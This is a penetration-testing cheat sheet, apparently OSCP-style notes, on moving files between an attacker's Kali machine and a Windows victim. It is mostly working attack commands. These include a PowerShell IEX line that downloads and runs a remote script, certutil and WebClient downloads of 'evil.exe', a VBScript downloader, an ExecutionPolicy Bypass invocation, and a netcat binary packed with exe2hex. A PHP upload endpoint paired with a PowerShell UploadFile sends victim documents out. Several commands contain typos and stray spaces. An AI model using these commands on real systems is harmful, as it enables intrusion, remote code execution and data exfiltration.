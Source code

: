 # Windows File Transfers

* FTP on attacker machine
- Can also use tftp for file transfers  


### Easiest file transfer
**Attacker -> Victim machine**
1. On attacking Machine: `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .`
	On Windows victim Machine: `copy \\192.168.49.80\kali\winPEAS.bat .`

2. certutil -urlcache -f  `<url>` `<executable>`
3. Let’s download this file to our Kali box using SCP. Start a SSH server if it is not already running

```
systemctl start ssh.socket 
```

Transfer the file;

```
scp ariah@192.168.79.99:C:/ftp/Infrastructure.pdf . 
```


### Windows Simple HTTP downloader VBs
**Attacker - Victim machine**
```
cho	strUrl	=	WScript.Arguments.Item(0)	>	wget.vbs	
echo	StrFile	=	WScript.Arguments.Item(1)	>>	wget.vbs
echo	Const	HTTPREQUEST_PROXYSETTING_DEFAULT	=	0	>>	wget.vbs
echo	Const	HTTPREQUEST_PROXYSETTING_PRECONFIG	=	0	>>	wget.vbs
echo	Const	HTTPREQUEST_PROXYSETTING_DIRECT	=	1	>>	wget.vbs
echo	Const	HTTPREQUEST_PROXYSETTING_PROXY	=	2	>>	wget.vbs
echo	Dim	http,	varByteArray,	strData,	strBuffer,	lngCounter,	fs,	ts	>>	wget.vbs
echo	Err.Clear	>>	wget.vbs
echo	Set	http	=	Nothing	>>	wget.vbs
echo	Set	http	=	CreateObject("WinHttp.WinHttpRequest.5.1")	>>	wget.vbs
echo	If	http	Is	Nothing	Then	Set	http	=	CreateObject("WinHttp.WinHttpRequest")	>>	wge	t.vbs
echo	If	http	Is	Nothing	Then	Set	http	=	CreateObject("MSXML2.ServerXMLHTTP")	>>	wget.	vbs
echo	If	http	Is	Nothing	Then	Set	http	=	CreateObject("Microsoft.XMLHTTP")	>>	wget.vbs	
echo	http.Open	"GET",	strURL,	False	>>	wget.vbs
echo	http.Send	>>	wget.vbs
echo	varByteArray	=	http.ResponseBody	>>	wget.vbs
echo	Set	http	=	Nothing	>>	wget.vbs
echo	Set	fs	=	CreateObject("Scripting.FileSystemObject")	>>	wget.vbs
echo	Set	ts	=	fs.CreateTextFile(StrFile,	True)	>>	wget.vbs
echo	strData	=	""	>>	wget.vbs
echo	strBuffer	=	""	>>	wget.vbs
echo	For	lngCounter	=	0	to	UBound(varByteArray)	>>	wget.vbs
echo	ts.Write	Chr(255	And	Ascb(Midb(varByteArray,lngCounter	+	1,	1)))	>>	wget.vbs	
echo	Next	>>	wget.vbs
echo	ts.Close	>>	wget.vbs	
```

To run the above:  `cscript wget.vbs http://10.11.0.4/evil.exe evil.exe`

### Using powershell
**Attacker - Victim machine**
Another way on newer machines is to use powershell:
```
C:\Users\Offsec> echo $webclient = New-Object System.Net.WebClient >>wget.ps1 C:\Users\Offsec> echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1 C:\Users\Offsec> echo $file = "new-exploit.exe" >>wget.ps1 C:\Users\Offsec> echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

Run the above using `powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoPro file -File wget.ps1`  
Powershell default exec policy is restriction, no logo to not seee logo and nopro for prevention of loading default profile

Can do the same in one line without creating a file:   
`c> powershell.exe (New-Object System.Net.WebClient).DownloadFile('http:/ /10.11.0.4/evil.exe', 'newexploit.exe')`

Can also execute a file without saving it to disk:
`powershell.exe IEX (New-Object System.Net.WebClient).DownloadString(' http://10.11.0.4/helloworld.ps1')`


### Windows Downloads with exe2hex and PowerShell
**Attacker - Victim machine**
Compress a binary, then convert to a hex string, embed to a windows script
Can use UPX: PE compression tool

On attacker machine: `upx -9 nc.exe`
`exe2hex -x nc.exe -p nc.cmd`
Transfer the nc file and on the windows host, run `powershell -Command "$h=Get-Content -readcount 0 -path './nc.hex';$l=$ h[0].length;$b=New-Object byte[] ($l/2);$x=0;for ($i=0;$i -le $l-1;$i+=2){$b[$x]=[byte ]::Parse($h[0].Substring($i,2),[System.Globalization.NumberStyles]::HexNumber);$x+=1}; set-content -encoding byte 'nc.exe' -value $b;Remove-Item -force nc.hex;"`
command above can be found in the nc.cmd 


### Windows uploads using scripting languages
**Victim - Attacker machine**
On attacker kali machine, start an apache server and create an uploads directory. Change owner to www-data
```
<?php	
$uploaddir	=	'/var/www/uploads/';
$uploadfile	=	$uploaddir	.	$_FILES['file']['name'];	
move_uploaded_file($_FILES['file']['tmp_name'],	$uploadfile)	?>	
```

From windows machine: `powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')`

